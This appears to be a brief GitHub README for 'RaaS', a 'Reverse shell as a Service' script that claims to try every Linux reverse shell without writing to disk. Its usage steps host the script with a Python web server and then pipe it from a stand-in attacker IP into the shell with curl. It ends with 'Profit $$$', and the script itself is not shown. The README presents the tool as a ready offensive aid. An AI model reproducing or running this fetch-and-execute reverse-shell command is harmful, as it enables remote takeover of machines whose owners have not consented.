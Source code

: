 # RaaS
Reverse shell as a Service script that tries all the different reverse shells on Linux systems without touching the disk.

# Usage
1. Host the file on your system

   $ python3 -m http.server 8080

3. Grab the file using Curl and pipe it to bash

   $ curl http://<attacker ip>/8080|sh

5. Profit $$$
